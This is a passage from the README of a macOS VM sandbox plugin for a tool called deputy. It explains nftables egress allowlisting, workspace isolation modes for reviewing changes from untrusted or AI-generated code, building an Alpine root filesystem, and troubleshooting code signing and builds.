        nft["nftables<br/><i>deputy_filter table</i>"]
        eth0["eth0"]
    end

    subgraph Policy["nftables Rules (OUTPUT chain)"]
        direction TB
        R1["policy drop<br/><i>Default: block all</i>"]
        R2["oif lo accept<br/><i>Allow loopback</i>"]
        R3["ct state established accept<br/><i>Allow return traffic</i>"]
        R4["udp/tcp dport 53 accept<br/><i>Allow DNS</i>"]
        R5["udp dport 67/68 accept<br/><i>Allow DHCP</i>"]
        R6["ip daddr 104.x.x.x accept<br/><i>Allowlisted hosts</i>"]
    end

    subgraph macOS["macOS Host"]
        vmnet["vmnet NAT"]
    end

    subgraph Internet["Internet"]
        Allowed["registry.npmjs.org<br/><i>✓ Allowed</i>"]
        Blocked["evil.attacker.com<br/><i>✗ Blocked</i>"]
    end

    App --> nft
    nft --> eth0
    eth0 --> vmnet

    vmnet -->|"Port 443"| Allowed
    vmnet -.-x|"Dropped by nftables"| Blocked

    style Allowed fill:#c8e6c9,stroke:#2e7d32
    style Blocked fill:#ffcdd2,stroke:#c62828
```

**Example: Secure npm install**

```bash
# Only allow npm registry and GitHub - all other egress blocked
deputy exec --runtime plugin --plugin vz \
    --workspace . \
    --network allowlist \
    --network-allow registry.npmjs.org:443 \
    --network-allow github.com:443 \
    -- npm install
```

**nftables rules generated:**

```
table inet deputy_filter {
    chain output {
        type filter hook output priority filter; policy drop;
        oif "lo" accept                           # Loopback
        ct state established,related accept        # Return traffic
        udp dport 53 accept                        # DNS (needed for resolution)
        tcp dport 53 accept
        udp dport 67 accept                        # DHCP
        udp sport 68 accept
        ip daddr 104.16.0.0/12 tcp dport 443 accept  # npm registry
        ip daddr 140.82.0.0/16 tcp dport 443 accept  # GitHub
    }
}
```

**Security characteristics:**

| Aspect | ALLOWLIST Mode |
|--------|----------------|
| Entitlement required | None (uses guest nftables) |
| Enforcement point | Linux guest kernel |
| Default policy | DROP all outbound |
| DNS | Allowed (needed for hostname resolution) |
| Return traffic | Allowed (via connection tracking) |
| Host-level bypass | Not possible (nftables in guest) |
| Guest-level bypass | Requires guest root + kernel exploit |

**How hostname resolution works:**

1. VM boots with NAT networking
2. `deputy-init` parses `--network-allow` hosts from kernel cmdline
3. For each host, `getent ahostsv4` resolves hostname to IPv4
4. nftables rules are added for the resolved IP addresses
5. DNS queries (port 53) are allowed so the app can resolve other names
6. But connections to non-allowlisted IPs are blocked

**Current limitations:**

1. **IPv4 only**: Hostname resolution currently filters for IPv4 addresses. IPv6 support could be added.

2. **Resolution at boot**: Hostnames are resolved once at VM boot. If DNS returns multiple IPs or IPs change, some connections may fail.

3. **Guest-side enforcement**: A malicious process with root inside the VM could theoretically modify nftables rules. However, this requires:
   - Root access inside the VM (the init script runs as root)
   - Knowledge of how to modify nftables
   - In practice, supply chain attacks in npm/go/pip packages rarely include kernel-level exploits

4. **DNS queries leak information**: DNS queries are allowed (needed for the app to work), so an attacker could encode data in DNS queries. For maximum security, use `--network none`.

**Recommendations:**

| Use Case | Network Mode | Reason |
|----------|--------------|--------|
| Untrusted code execution | `--network none` | Maximum isolation |
| Package installation (npm, go) | `--network allowlist` | Allow only registries |
| General development | `--network host` | Convenience |
| Production builds | `--network allowlist` | Prevent exfiltration |

**Future: VZVmnetNetworkDeviceAttachment (macOS 26+)**

Apple is adding `VZVmnetNetworkDeviceAttachment` in macOS 26 which will enable true vmnet-based networking **without** the restricted `com.apple.vm.networking` entitlement. This will unlock:

| Feature | Current (NAT) | Future (Vmnet) |
|---------|---------------|----------------|
| Entitlement required | None (NAT), Restricted (bridged) | **None** |
| Ad-hoc signing | NAT only | **Full vmnet support** |
| True bridged networking | ❌ | ✅ |
| Inter-VM communication | ❌ | ✅ (SharedMode) |
| Host-level network control | ❌ | ✅ |

Track progress: [Code-Hex/vz#205](https://github.com/Code-Hex/vz/pull/205)

Once macOS 26 is released and the vz library is updated, we can implement true BRIDGE mode without the entitlement restriction.

### Clock Synchronization

The VM automatically synchronizes its clock from the host at boot via the `deputy.time` kernel parameter. This ensures SSL/TLS certificate validation works correctly.

```bash
# Clock is automatically synced from host
$ deputy exec --runtime plugin --plugin vz -- date
Mon Jan 13 19:58:00 UTC 2026
```

## Limitations

- **macOS Only**: Requires macOS 11.0+ on Apple Silicon
- **Startup Overhead**: VMs take ~70-200ms to boot (vs ~10ms for containers)
- **Asset Management**: Requires pre-built kernel and rootfs images
- **No GPU Passthrough**: GPU workloads not supported
- **Disk Space**: Rootfs images consume disk space (~2GB for Ubuntu)
- **Network Allowlist**: Works with Alpine rootfs (has nftables); uses guest-side filtering
- **Ubuntu No Workspace**: Ubuntu kernel lacks virtiofs; use Alpine kernel for workspace mounting. See [Workspace Mounting Status](#workspace-mounting-status)

## Workspace Mounting Status

Workspace mounting (`--workspace`) allows sharing a host directory with the VM via virtiofs. This is critical for supply chain security workflows where you want to run `go build` or `npm install` on your project.

### Current Status

| Kernel | virtiofs | virtio_blk | Workspace | Status |
|--------|----------|------------|-----------|--------|
| Ubuntu 24.04 cloud | Not available | Built-in | **No** | Boots fast, no virtiofs |
| Lima Alpine 6.18 | Module in initrd | Module in initrd | **Yes** | **Working with custom initrd** |
| Custom kernel | Needs `CONFIG_VIRTIO_FS=y` | Needs `CONFIG_VIRTIO_BLK=y` | **Yes** | Build from source |

### Technical Details

**Ubuntu Cloud Kernel** (`vmlinuz-generic`):
- Downloads from: `cloud-images.ubuntu.com`
- Boots directly without initramfs (fast ~70ms)
- Has `virtio_blk` built-in for disk access
- **Lacks** `CONFIG_VIRTIO_FS` (virtiofs not available)
- Best for: Isolated execution without host directory access

**Lima Alpine Kernel** (from Lima project's Alpine ISO):
- Kernel format: EFI stub (script extracts raw ARM64 kernel automatically)
- Has `virtiofs.ko` module in modloop (script creates custom initrd with it)
- Has `virtio_blk.ko` module (not built-in, loaded via initrd)
- **Working**: virtiofs workspace mounting tested and functional
- Boot time: ~1.5s (includes module loading)

### What the Build Script Does

The `build-alpine-rootfs.sh` script handles all the complexity automatically:

1. **Downloads** Lima's Alpine ISO (contains kernel with virtiofs support)
2. **Extracts raw ARM64 kernel** from the EFI stub (VZ requires raw Image format, not PE32+)
3. **Creates custom initrd** with virtiofs, virtio_blk, and ext4 modules from the modloop
4. **Builds rootfs** with Alpine base, Go 1.23.5, and Node.js 22
5. **Installs deputy-init** script for command execution

The output files are:
- `vmlinuz` - Raw ARM64 kernel (extracted from EFI stub)
- `initrd.img` - Custom initrd with virtiofs modules
- `rootfs.img` - 8GB Alpine rootfs with dev tools

### Installing Additional Packages in the Alpine Rootfs

The `build-alpine-rootfs.sh` script already installs Go 1.23.5 and Node.js 22. To add more packages, use Docker to mount and modify the ext4 image:

```bash
# Add Python to the Alpine rootfs
docker run --rm --privileged -v ~/.deputy/vz/alpine:/alpine alpine:3.23 sh -c "
  mkdir -p /mnt/rootfs
  mount -o loop /alpine/rootfs.img /mnt/rootfs
  apk --root /mnt/rootfs add python3 py3-pip
  umount /mnt/rootfs
"

# Add Rust toolchain
docker run --rm --privileged -v ~/.deputy/vz/alpine:/alpine alpine:3.23 sh -c "
  mkdir -p /mnt/rootfs
  mount -o loop /alpine/rootfs.img /mnt/rootfs
  apk --root /mnt/rootfs add rust cargo
  umount /mnt/rootfs
"
```

### Supply Chain Security Examples (Alpine + Go)

With Go installed and virtiofs workspace mounting, you can run supply chain security workflows in an isolated VM:

```console
$ deputy exec --runtime plugin --plugin vz --workspace . -- cat go.mod | head -n 3
module github.com/picatz/deputy

go 1.25.5
$ deputy exec --runtime plugin --plugin vz --workspace . -- uname -a
Linux (none) 6.18.2-0-virt #1-Alpine SMP PREEMPT_DYNAMIC 2025-12-29 10:24:58 aarch64 Linux
```

#### Building Go Projects with Network Access

For large projects that need to download dependencies, use `--network host` and increase resources:

```bash
# Build a Go project with network access (downloads dependencies)
# Uses 4 CPUs and 4GB RAM for faster compilation
deputy exec --runtime plugin --plugin vz \
    --workspace . \
    --network host \
    --dangerously-skip-prompt \
    --cpu 4 \
    --memory 4g \
    -- go build ./...

# Build and output binary to host filesystem (writable workspace)
deputy exec --runtime plugin --plugin vz \
    --workspace . \
    --network host \
    --dangerously-skip-prompt \
    --cpu 4 \
    --memory 4g \
    --mode full-access \
    -- go build -o /workspace/myapp .

# Verify the binary was created (Linux ELF, not macOS Mach-O)
$ file myapp
myapp: ELF 64-bit LSB executable, ARM aarch64, version 1 (SYSV), dynamically linked, interpreter /lib/ld-musl-aarch64.so.1, ...
```

**Resource recommendations:**
- `--cpu 4 --memory 4g` - Good for most Go projects
- `--cpu 8 --memory 8g` - Large projects with many dependencies
- Default (1 CPU, 512MB) - Only suitable for simple commands, not compilation

**Network modes:**
- `--network host` - Full network access (required for `go build` to download dependencies)
- `--network none` (default) - No network, most isolated

#### Other Go Operations

```bash
# List module dependencies
deputy exec --runtime plugin --plugin vz --workspace . -- \
    go list -m all

# Run go mod tidy (read-write workspace)
deputy exec --runtime plugin --plugin vz \
    --workspace . \
    --network host \
    --dangerously-skip-prompt \
    --mode full-access \
    -- go mod tidy

# Verify checksums (no network needed)
deputy exec --runtime plugin --plugin vz --workspace . -- \
    go mod verify

# Download dependencies without building
deputy exec --runtime plugin --plugin vz \
    --workspace . \
    --network host \
    --dangerously-skip-prompt \
    -- go mod download
```

#### Technical Notes

The Alpine rootfs created by `build-alpine-rootfs.sh` is configured with:

| Configuration | Value | Why |
|---------------|-------|-----|
| **Rootfs size** | 8GB | Accommodates Go toolchain downloads and large builds |
| **GOCACHE** | `/root/.cache/go-build` | On rootfs, not `/tmp` (tmpfs is RAM-backed, limited) |
| **GOMODCACHE** | `/root/go/pkg/mod` | Persistent module cache on rootfs |
| **GOTMPDIR** | `/root/tmp` | Build temp files on rootfs, not RAM |
| **DNS servers** | 1.1.1.1, 8.8.8.8 | Apple's vmnet NAT gateway does NOT forward DNS queries |
| **Kernel** | Lima 6.18.2-0-virt | Has virtiofs as module (matches modloop) |

**Why these matter:**
- Without `GOTMPDIR` on rootfs, `go build` fails with "no space left on device" during compilation
- Without public DNS, `go build` fails with DNS resolution errors (vmnet DHCP provides a gateway IP that doesn't answer DNS)
- The 8GB size allows building projects with 100+ dependencies without running out of space

## Workspace Isolation Modes

> [!TIP]
> **Use `--preserve-workspace` for AI agent and untrusted code workflows.** When running code you don't fully trust (AI-generated code, third-party build scripts), combine isolation modes with `--preserve-workspace` to review changes before they're applied to your actual workspace. This gives you a human-in-the-loop checkpoint for supply chain attacks that modify `package.json`, `go.mod`, or inject malicious files.

The VZ plugin supports multiple workspace isolation modes that control how the host workspace is shared with the VM. These modes provide different trade-offs between safety and convenience.

### Available Modes

| Mode | Description | Use Case |
|------|-------------|----------|
| `direct` | Workspace mounted read-write via virtiofs | Default, changes write directly to host |
| `overlay` | Workspace mounted read-only, changes stored in VM | Safe experimentation, review before commit |
| `snapshot` | Full copy of workspace in VM | Complete isolation, slower startup |
| `tmpfs` | Workspace read-only, changes in RAM | Ephemeral changes, discarded on shutdown |
| `git-worktree` | Creates a git worktree for isolated branch | Git-aware isolation, preserves git history |

### Isolation Mode Architecture


```mermaid
flowchart TB
    subgraph Host["macOS Host"]
        direction TB
        Workspace["Your Project<br/><code>/Users/you/myapp/</code>"]
        ChangesDir["Changes Directory<br/><code>/tmp/deputy-vz-workspace/changes-xxx/</code>"]
    end

    subgraph VZ["Virtualization.framework"]
        direction TB
        WBase["virtiofs: workspace-base<br/><i>read-only</i>"]
        WChanges["virtiofs: workspace-changes<br/><i>write, for sync</i>"]
    end

    subgraph VM["Alpine Linux VM"]
        direction TB
        MntBase["/mnt/workspace-base<br/><i>original files (RO)</i>"]
        UpperLayer["/mnt/overlay-upper<br/><i>changes (RW, local ext4)</i>"]
        WorkDir["/mnt/overlay-work<br/><i>overlayfs workdir</i>"]
        Overlay["overlayfs mount"]
        WSMount["/workspace<br/><i>merged view</i>"]

        MntBase --> Overlay
        UpperLayer --> Overlay
        WorkDir --> Overlay
        Overlay --> WSMount
    end

    Workspace -->|"read-only share"| WBase
    ChangesDir -->|"write share"| WChanges
    WBase --> MntBase
    WChanges -->|"sync changes<br/>after execution"| UpperLayer

    style Workspace fill:#e3f2fd,stroke:#1565c0
    style ChangesDir fill:#c8e6c9,stroke:#2e7d32
    style WSMount fill:#fff3e0,stroke:#e65100
```

### Direct Mode (Default)

Direct mode mounts the workspace read-write via virtiofs. Changes made in the VM are immediately visible on the host.

```bash
# Direct mode - changes write to host immediately
deputy exec --runtime plugin --plugin vz \
    --workspace . \
    --network host \
    --mode full-access \
    -- go build -o /workspace/myapp .
```

**Characteristics:**
- Fastest: no copy overhead
- Changes visible immediately on host
- Risk: malicious code can modify your files

### Overlay Mode (Safe Experimentation)

Overlay mode mounts the workspace read-only and stores all changes in the VM's local filesystem. The original workspace is protected.

```bash
# Overlay mode - workspace protected, changes stored in VM
deputy exec --runtime plugin --plugin vz \
    --workspace . \
    --workspace-isolation overlay \
    --network host \
    -- npm install untrusted-package
```

**Characteristics:**
- Original workspace is read-only (protected)
- Changes stored on VM's local ext4 rootfs
- By default, changes are discarded when VM shuts down
- Use `--preserve-workspace` to keep changes for review

### Review Before Commit Workflow

The `--preserve-workspace` flag (or `review_before_commit` in the API) enables a powerful workflow for reviewing changes before they affect your host filesystem.


```mermaid
sequenceDiagram
    participant User
    participant Deputy
    participant VM
    participant Host

    User->>Deputy: exec --workspace-isolation overlay<br/>--preserve-workspace -- npm install

    Deputy->>VM: Create VM with overlay mode
    Note over VM: workspace-base: read-only virtiofs<br/>workspace-changes: write virtiofs

    VM->>VM: Execute npm install<br/>Changes go to /mnt/overlay-upper

    VM->>VM: Sync changes to /mnt/workspace-changes
    VM-->>Deputy: Report changes via protocol markers

    Deputy->>Host: Changes saved to<br/>/tmp/deputy-vz-workspace/changes-xxx/

    Deputy-->>User: Show change summary:<br/>• package.json (modified)<br/>• package-lock.json (modified)<br/>• node_modules/ (added)

    User->>Deputy: Review and apply (or discard)
    Deputy->>Host: Copy approved changes to workspace
```

**Usage:**

```bash
# Run command with change review
deputy exec --runtime plugin --plugin vz \
    --workspace . \
    --workspace-isolation overlay \
    --preserve-workspace \
    --network host \
    -- npm install new-package

# Output shows changes:
# Changes detected:
#   M package.json
#   M package-lock.json
#   A node_modules/new-package/...
#
# Changes preserved at: /tmp/deputy-vz-workspace/changes-xxx/
# Review and apply with: deputy workspace apply <path>
```

**Protocol Markers for Changes:**

The VM reports changes via stdout protocol markers:

| Marker | Description |
|--------|-------------|
| `<<<DEPUTY_CHANGES_START>>>` | Beginning of changes list |
| `<<<DEPUTY_CHANGE:A:path>>>` | File added |
| `<<<DEPUTY_CHANGE:M:path>>>` | File modified |
| `<<<DEPUTY_CHANGE:D:path>>>` | File deleted |
| `<<<DEPUTY_CHANGES_END>>>` | End of changes list |

### Overlay Implementation Details

The overlay mode uses Linux overlayfs inside the VM:

1. **workspace-base** (virtiofs, read-only): Your original workspace shared from host
2. **Upper layer** (local ext4): Changes stored on VM's rootfs at `/mnt/overlay-upper`
3. **Work directory** (local ext4): Overlayfs internal at `/mnt/overlay-work`
4. **Merged view** (`/workspace`): Combined read-write view

**Why local ext4 for upper layer?**

macOS's virtiofs implementation has issues with overlayfs workdir operations (EACCES errors). Using local ext4 storage for the upper and work directories avoids these issues while still providing the same security benefits.

### Snapshot Mode

Snapshot mode creates a full copy of the workspace before execution:

```bash
# Snapshot mode - full isolation
deputy exec --runtime plugin --plugin vz \
    --workspace . \
    --workspace-isolation snapshot \
    --network host \
    -- ./untrusted-build.sh
```

**Characteristics:**
- Complete isolation: original workspace never touched
- Slower startup: requires copying all files
- Changes can be reviewed before applying

### Tmpfs Mode

Tmpfs mode stores changes in RAM, which are automatically discarded:

```bash
# Tmpfs mode - ephemeral changes (discarded on shutdown)
deputy exec --runtime plugin --plugin vz \
    --workspace . \
    --workspace-isolation tmpfs \
    --network host \
    -- npm install --dry-run
```

**Characteristics:**
- Fastest isolation mode (changes in RAM)
- Changes automatically discarded
- Limited by available memory

### Git Worktree Mode

For git repositories, `git-worktree` mode creates an isolated worktree branch for execution:

```bash
# Run tests in an isolated git worktree
deputy exec --runtime plugin --plugin vz \
    --workspace . \
    --workspace-isolation git-worktree \
    --network host \
    -- go test ./...

# Review changes before committing (preserves worktree)
deputy exec --runtime plugin --plugin vz \
    --workspace . \
    --workspace-isolation git-worktree \
    --preserve-workspace \
    --network host \
    -- go mod tidy
```

**How it works:**
1. Creates a new git worktree with a temporary branch
2. Mounts the worktree directory into the VM
3. Also mounts the original `.git` directory for full git access
4. Changes are made to the worktree, not the original directory
5. On cleanup, the worktree and branch are removed (unless `--preserve-workspace`)

**Characteristics:**
- Git-aware isolation preserves commit history and branches
- Changes can be reviewed as a git diff
- Supports `--preserve-workspace` for human review
- Full git operations work inside the VM
- Requires the workspace to be a git repository
- Secure cleanup: Uses Go 1.24+ `os.Root` for safe directory removal, preventing symlink-based path traversal attacks from a potentially compromised worktree

### Choosing the Right Mode

| Scenario | Recommended Mode | Why |
|----------|------------------|-----|
| Building your own code | `direct` | Trust yourself, want changes |
| Installing untrusted packages | `overlay` + `--preserve-workspace` | Review changes before commit |
| Running untrusted scripts | `snapshot` | Full isolation |
| Testing/dry-run | `tmpfs` | Don't want any changes |
| AI agent workflows | `overlay` + `--preserve-workspace` | Human review of AI changes |
| Git repository changes | `git-worktree` | Git-aware isolation, easy diff review |

### Workarounds for Ubuntu (No Workspace)

If using Ubuntu kernel without virtiofs, these alternatives provide host file access:

1. **Pre-install dependencies in rootfs**: Build a rootfs with all needed tools
   ```bash
   make rootfs  # Creates developer rootfs with Go, Node.js, etc.
   ```

2. **Copy files into VM**: Use `deputy exec` to copy files
   ```bash
   # Copy file into VM (placeholder - not yet implemented)
   deputy exec --runtime plugin --plugin vz -- 'cat > /tmp/file.txt' < local-file.txt
   ```

3. **Use network for deps**: Fetch dependencies over network instead of host mount
   ```bash
   deputy exec --runtime plugin --plugin vz --network host -- \
       'git clone --depth 1 https://github.com/user/repo && cd repo && go build'
   ```

### Building a Custom Kernel (Advanced)

To enable workspace mounting, build a kernel with these options built-in (not as modules):

```bash
# Required kernel config options (=y means built-in, not =m module)
CONFIG_VIRTIO=y
CONFIG_VIRTIO_PCI=y
CONFIG_VIRTIO_BLK=y
CONFIG_VIRTIO_CONSOLE=y
CONFIG_VIRTIO_FS=y    # Critical for workspace mounting
CONFIG_FUSE_FS=y      # Required by virtiofs
```

See [Custom Kernel](#custom-kernel) section above for build instructions.

## Known Issues

The following issues are known and being tracked for future improvement:

### Read-Only Mode

**Status**: Fixed (requires rebuilt initrd)

The `--mode read-only` option mounts both the rootfs and workspace as read-only, providing maximum isolation.

> [!IMPORTANT]
> Read-only mode requires an initrd built after this fix. If you're seeing hangs with `--mode read-only`, rebuild the Alpine rootfs:
> ```bash
> cd examples/sandbox-plugins/vz && ./build-alpine-rootfs.sh
> ```

```bash
# Read-only execution: no changes can be made to rootfs or workspace
deputy exec --runtime plugin --plugin vz --workspace . --mode read-only -- cat README.md

# Note: Commands that write files will fail in read-only mode
deputy exec --runtime plugin --plugin vz --workspace . --mode read-only -- touch test.txt
# Error: Read-only file system
```

Use read-only mode for:
- Inspecting code without modification risk
- Running analysis tools that only read files
- Security-sensitive operations where isolation is paramount

**Technical Details**: When `--mode read-only` is set, the initrd mounts the ext4 rootfs with `-o ro,noload`. The `noload` option is necessary because ext4's journal may need recovery, which requires write access. Skipping journal replay is safe in read-only mode since no writes will occur.

### Complex Shell Commands with Pipes Need Wrapping

**Status**: Expected shell behavior (not a bug)

When you run `deputy exec ... -- cmd1 | cmd2`, the **host shell** interprets the pipe before Deputy sees it. Only `cmd1` gets sent to the VM, while `cmd2` runs on the host and receives the VM's output.

This is actually useful for post-processing VM output on the host, but if you want pipes to run **inside** the VM, you need to wrap the command.

**Solutions**:

```bash
# This runs "cat" in VM, then "grep" on HOST (often what you want):
deputy exec --runtime plugin --plugin vz -- cat /etc/os-release | grep PRETTY_NAME

# To run the ENTIRE pipeline inside the VM, wrap with sh -c:
deputy exec --runtime plugin --plugin vz -- sh -c "cat /etc/os-release | grep PRETTY_NAME"

# Or use a single command that doesn't need pipes:
deputy exec --runtime plugin --plugin vz -- grep PRETTY_NAME /etc/os-release

# For complex scripts, use a heredoc or script file:
deputy exec --runtime plugin --plugin vz -- sh -c 'for f in *.go; do wc -l "$f"; done'
```

**Why this happens**: The `--` separator tells the argument parser to stop processing flags, but shell operators (`|`, `>`, `&&`, etc.) are interpreted by your shell before Deputy even runs.

### Go Toolchain Auto-Downloads Newer Versions

**Status**: Fixed in latest rootfs builds

The pre-installed Go toolchain may attempt to download a newer version if `go.mod` specifies a newer Go version. This can fail without network access or if the download exceeds tmpfs space.

**Solution**: Rootfs images built with the latest `build-alpine-rootfs.sh` automatically set `GOTOOLCHAIN=local`, which prevents auto-downloads and uses the pre-installed Go 1.23.5 toolchain.

**If using an older rootfs**, you can manually set the environment variable:

```bash
# Option 1: Enable network (allows toolchain download)
deputy exec --runtime plugin --plugin vz --network host -- go build ./...

# Option 2: Force local toolchain via --env flag
deputy exec --runtime plugin --plugin vz --env GOTOOLCHAIN=local -- go build ./...

# Option 3: Rebuild your rootfs to include the fix permanently
cd examples/sandbox-plugins/vz && ./build-alpine-rootfs.sh
```

### Logging Levels

The VZ plugin respects `DEPUTY_LOG_LEVEL` environment variable:

```bash
# Default (warn): minimal output, only warnings and errors
deputy exec --runtime plugin --plugin vz -- echo hello

# Info level: shows phase progress for two-phase execution, workspace syncing
DEPUTY_LOG_LEVEL=info deputy exec --runtime plugin --plugin vz -- go build ./...

# Debug level: verbose output including VM config, kernel cmdline, boot messages
DEPUTY_LOG_LEVEL=debug deputy exec --runtime plugin --plugin vz -- echo hello
```

Valid levels: `debug`, `info`, `warn` (default), `error`

## Troubleshooting

### "Virtualization.framework not available"

Ensure you're running on:
- macOS 11.0 (Big Sur) or later
- Apple Silicon (M1/M2/M3/M4)

Intel Macs are **not supported** by Virtualization.framework for Linux VMs.

### "plugin not found" or "runtime RUNTIME_PLUGIN is not available"

```bash
# Check if plugin is installed in ~/go/bin
ls -la ~/go/bin/deputy-sandbox-vz
# Should show: -rwxr-xr-x

# Verify plugin is signed with virtualization entitlement
codesign -dv ~/go/bin/deputy-sandbox-vz 2>&1 | grep -i entitlement
# Should show entitlements

# Test plugin starts correctly
~/go/bin/deputy-sandbox-vz --socket /tmp/test.sock &
sleep 2
ls /tmp/test.sock && echo "Plugin started OK"
kill %1

# If plugin hangs, check for extended attributes
xattr ~/go/bin/deputy-sandbox-vz
# If "com.apple.provenance" exists, remove it:
xattr -d com.apple.provenance ~/go/bin/deputy-sandbox-vz
codesign --entitlements entitlements.plist --force --sign - ~/go/bin/deputy-sandbox-vz
```

### "kernel not found" or "rootfs not found"

```bash
# Check the directory structure
ls -la ~/.deputy/vz/
# Should show: vmlinuz -> alpine/vmlinuz, rootfs.img -> alpine/rootfs.img

# Check Alpine assets exist
ls -la ~/.deputy/vz/alpine/
# Should show: vmlinuz, initrd.img, rootfs.img

# If symlinks are missing, recreate them:
ln -sf alpine/vmlinuz ~/.deputy/vz/vmlinuz
ln -sf alpine/rootfs.img ~/.deputy/vz/rootfs.img

# If files don't exist, rebuild the rootfs
cd examples/sandbox-plugins/vz
./build-alpine-rootfs.sh
```

### "Permission denied" on rootfs.img

VZ requires read-write access to the rootfs image to attach it as a virtual disk.

```bash
# Fix permissions
chmod 666 ~/.deputy/vz/alpine/rootfs.img

# Clear quarantine attributes
xattr -c ~/.deputy/vz/alpine/rootfs.img
```

### "zip: not a valid zip file" when running Go

This error occurs when the Go toolchain cache gets corrupted. This typically happens if you're using an older version of the VZ plugin that didn't wait for the VM to shut down gracefully.

```
go: download go1.25.5: unzip /root/go/pkg/mod/cache/download/golang.org/toolchain/@v/v0.0.1-go1.25.5.linux-arm64.zip: zip: not a valid zip file
```

**Solution:** Rebuild both the plugin and rootfs to get the latest fixes:

```bash
# Rebuild the plugin (includes graceful shutdown fix)
cd examples/sandbox-plugins/vz
go build -o deputy-sandbox-vz .
codesign --entitlements entitlements.plist --sign - deputy-sandbox-vz
cp deputy-sandbox-vz ~/go/bin/

# Rebuild the rootfs (clears corrupt cache)
./build-alpine-rootfs.sh
```

The fix ensures the VM waits for `sync; poweroff` to complete before the plugin releases the disk image. This prevents filesystem writes (like Go toolchain downloads) from being truncated.

### "no space left on device" during go build

This happens when Go tries to use `/tmp` for caches or temp files, but `/tmp` is RAM-backed (tmpfs) with limited space.

**Solution:** The `build-alpine-rootfs.sh` script should configure Go caches on the rootfs. If you still see this error, rebuild the rootfs:

```bash
cd examples/sandbox-plugins/vz
./build-alpine-rootfs.sh
```

The init script sets these environment variables to use the 8GB rootfs instead of tmpfs:
- `GOCACHE=/root/.cache/go-build`
- `GOMODCACHE=/root/go/pkg/mod`
- `GOTMPDIR=/root/tmp`

### DNS resolution fails (go build can't reach proxy.golang.org)

Apple's vmnet NAT gateway does NOT forward DNS queries. The init script must set public DNS servers.

**Solution:** Rebuild the rootfs - the latest `build-alpine-rootfs.sh` always sets DNS to 1.1.1.1 and 8.8.8.8:

```bash
cd examples/sandbox-plugins/vz
./build-alpine-rootfs.sh
```

### go build is very slow

Default VM resources (1 CPU, 512MB RAM) are too low for compilation.

**Solution:** Use `--cpu` and `--memory` flags:

```bash
deputy exec --runtime plugin --plugin vz \
    --workspace . \
    --network host \
    --cpu 4 \
    --memory 4g \
    -- go build ./...
```

### "code signature invalid"

```bash
# Re-sign with entitlements (from the vz plugin directory)
cd examples/sandbox-plugins/vz
codesign --entitlements entitlements.plist --force --sign - ~/go/bin/deputy-sandbox-vz

# Verify signature
codesign -dvvv ~/go/bin/deputy-sandbox-vz
# Should show entitlements including com.apple.security.virtualization
```

### Verifying Code Signatures

When troubleshooting, check the code signatures for both `deputy` and `deputy-sandbox-vz`:

**deputy CLI** (no special entitlements needed):
```bash
$ codesign -dv --entitlements - /Users/picat/go/bin/deputy
Executable=/Users/picat/go/bin/deputy
Identifier=a.out
Format=Mach-O thin (arm64)
CodeDirectory v=20400 size=747422 flags=0x20002(adhoc,linker-signed) hashes=23354+0 location=embedded
Signature=adhoc
Info.plist=not bound
TeamIdentifier=not set
Sealed Resources=none
Internal requirements=none
```

**deputy-sandbox-vz** (requires virtualization entitlements):
```bash
$ codesign -dv --entitlements - /Users/picat/go/bin/deputy-sandbox-vz
Executable=/Users/picat/go/bin/deputy-sandbox-vz
Identifier=deputy-sandbox-vz-555549449c0df4d405ee3b50d43bbe8b6ff61fc4
Format=Mach-O thin (arm64)
CodeDirectory v=20400 size=106963 flags=0x2(adhoc) hashes=3331+7 location=embedded
Signature=adhoc
Info.plist=not bound
TeamIdentifier=not set
Sealed Resources=none
Internal requirements count=0 size=12
[Dict]
	[Key] com.apple.security.network.client
	[Value]
		[Bool] true
	[Key] com.apple.security.network.server
	[Value]
		[Bool] true
	[Key] com.apple.security.virtualization
	[Value]
		[Bool] true
```

**Key things to verify:**
- `Signature=adhoc` - Ad-hoc signed (normal for local development)
- The entitlements dict must include:
  - `com.apple.security.virtualization` = true (required for VM creation)
  - `com.apple.security.network.client` = true (for VM network access)
  - `com.apple.security.network.server` = true (for plugin socket server)

**If entitlements are missing**, re-sign with the entitlements file:
```bash
cd examples/sandbox-plugins/vz
codesign --entitlements entitlements.plist --force --sign - ~/go/bin/deputy-sandbox-vz
```

### Plugin hangs on startup (UE state)

If the plugin process immediately enters "UE" (uninterruptible/exiting) state without creating its socket:

```bash
# Check process state
ps aux | grep deputy-sandbox-vz
# If you see "UE" in the stat column, the plugin is hung

# Debugging checklist:
# 1. Check code signature is valid
codesign -dvvv ~/go/bin/deputy-sandbox-vz

# 2. Rebuild from source (in the vz directory)
cd examples/sandbox-plugins/vz
go build -o deputy-sandbox-vz .
codesign --entitlements entitlements.plist --force --sign - deputy-sandbox-vz
cp deputy-sandbox-vz ~/go/bin/

# 3. Test the local binary first
./deputy-sandbox-vz --socket /tmp/test.sock &
sleep 2
ls -la /tmp/test.sock  # Should exist
kill %1

# 4. Test the installed binary
~/go/bin/deputy-sandbox-vz --socket /tmp/test2.sock &
sleep 2
ls -la /tmp/test2.sock  # Should exist
```

**Common causes:**
- Stale/corrupted binary in ~/go/bin (rebuild and reinstall)
- Missing entitlements (re-sign with entitlements.plist)
- Zombie VZ processes from previous runs (try `pkill -9 -f deputy-sandbox-vz`)
- System Virtualization.framework resource exhaustion (may require reboot)

**Note:** The `com.apple.provenance` extended attribute is normal and does NOT cause issues.
macOS adds this to track file origin, but it doesn't affect execution.

### Restricted Entitlements

Some Virtualization.framework entitlements are **restricted** and cannot be used with ad-hoc signing (`codesign -s -`). These require either:
- An Apple Developer account with the entitlement provisioned
- Distribution through the App Store or notarization

| Entitlement | Restriction | Purpose |
|-------------|-------------|---------|
| `com.apple.security.virtualization` | ✅ Ad-hoc OK | Basic VM creation |
| `com.apple.security.network.client` | ✅ Ad-hoc OK | Outbound network |
| `com.apple.security.network.server` | ✅ Ad-hoc OK | Inbound network |
| `com.apple.vm.networking` | ❌ **Restricted** | vmnet/NAT networking with host-level control |
| `com.apple.vm.device-access` | ❌ **Restricted** | USB device passthrough |

**Symptom**: Adding `com.apple.vm.networking` to `entitlements.plist` and signing with `-s -` causes macOS to kill the process immediately with:
```
Error Domain=AppleMobileFileIntegrityError Code=-420
"The signature on the file is invalid"
```

**Workaround**: The plugin uses guest-level `nftables` for network filtering instead of host-level vmnet controls. This works with ad-hoc signing but has limitations (see Network Filtering Limitations below).

### "Internal Virtualization error"

This usually means:
1. **Wrong kernel format**: Ensure `vmlinuz` is an uncompressed ARM64 Image, not an EFI stub
   ```bash
   file ~/.deputy/vz/vmlinuz
   # Must show: Linux kernel ARM64 boot executable Image
